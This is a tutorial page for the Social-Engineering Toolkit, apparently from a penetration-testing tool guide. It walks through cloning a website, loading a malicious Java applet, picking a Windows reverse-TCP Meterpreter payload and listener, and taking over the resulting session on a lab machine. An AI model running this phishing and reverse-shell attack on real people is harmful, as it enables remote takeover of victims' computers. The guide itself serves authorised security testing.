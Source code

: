 
The Social-Engineering Toolkit
===========================

Website
-------

<https://www.trustedsec.com/downloads/social-engineer-toolkit/>

<https://github.com/trustedsec/social-engineer-toolkit>

Description
-----------

SET is an open source tool implemented in python which focuses on penetration testing through 
social engineering. SET uses advanced attack techniques and has been featured in many books.

Install Location
----------------

`/opt/set/`

Usage
-----

SET comes with a built in menu driven UI.  All you need to do is launch it; and follow the prompts.

`~#` **`cd /opt/set`**

`/opt/set#` **`./set`**

Example 1: Look over SET's features
-----------------------------------

After launching you will be greeted by the SET prompt.  It should look
similar to below.

    Select from the menu:
    
       1) Social-Engineering Attacks
       2) Fast-Track Penetration Testing
       3) Third Party Modules
       4) Update the Metasploit Framework
       5) Update the Social-Engineer Toolkit
       6) Update SET configuration
       7) Help, Credits and About
       
       99) Exit the Social-Engineer Toolkit
       
    set>

For its incredible power SET is extremely simple to use. No need to 
memorize commands, since SET presents the user with a series of 
itemized menus. Let's have a look at some of these features.

First off, notice that options 4-6 run updates for metasploit, SET, and
its options, respectively.

Next, let's look at `Social Engineering Attacks`. Just hit `1` at the prompt
and press enter. You'll be presented with your next layer of menus.

![](SET_files/SET02.png)

Select `Website Attack Vectors` in the current menu (item #2).

![](SET_files/SET03.png)

Note that the list of choices is now proceeded by a descritpion of each.
One of SET's more effective attack vectors is the `Java Applet Attack Method`. 
This method requires that we build a fake website and load a
malicious java applet into it, then convince your target to run the
applet. Let's select the `Java Applet Attack Method`.

![](SET_files/SET04.png)

Now we can take a look at how we want to build this website.  Our options
are to choose to use existing web templaes or clone a live site.

`set:webattack>` **`2`**

Selecting the live site you are now asked if you are using nat port
forwarding.  Answer `no`.

`set> Are you using NAT/Port Forwarding [yes|no]:` **`no`**

Next, we'll be asked for the IP address we will be listening on. Find
it by typing `ifconfig` in another terminal window and type it in
when SET prompts you.

`192.168.1.113`

Next, we're prompted for a site to clone.  Let's use `http://isitchristmas.com`

SET now retrieves the site and presents us with a (long) list of
payloads.  We'll choose #2 for now, which is the `Windows Reverse_TCP Meterpreter` payload.

       2) Windows Reverse_TCP Meterpreter       Spawn a meterpreter shell on the victim and send it back to the attacker

`set:payloads>` **`2`**

SET gives many options for encoding and obfuscation.  Encoding can be 
useful in circumstances when certain characters are not allowed.
However, many people mistakenly believe encoding is meant to bypass 
Anti-Virus software.  There was a time when a side-effect of encoding 
was that AV would not detect a malicious payload, however today encoding
will _cause_ AV to flag a payload just as often as not.  So for now, 
let's go with option `16) No Encoding`.  

`set:encoding>` **`16`**

Finally, we come to the port of the listener.  Ensure that the
firewall is disabled, and for now **please use the defaults!**

Once the listener is running we're just waiting for the victim to surf
to our page. When they do they'll be presented with the ever-familiar
"Do you want to run this application" dialog box, where they always
seem to click yes.

If we look on the listening machine we see that SET now shows the
Metasploit prompt and is creating sessions in the background.

    msf exploit(handler)> sessions -l
     
    Active sessions
    ===============
     
      Id Type                       Information
      -- ----                       -----------
      1  meterpreter x86/win32      Test\tester @ LAB  (192.168.1.141)

We can now interact with the session.

`msf exploit(handler) >` **`sessions -i 1`**

From here, you have the entire Metasploit Framework at your disposal, including plugins, post 
modules, and exploits.


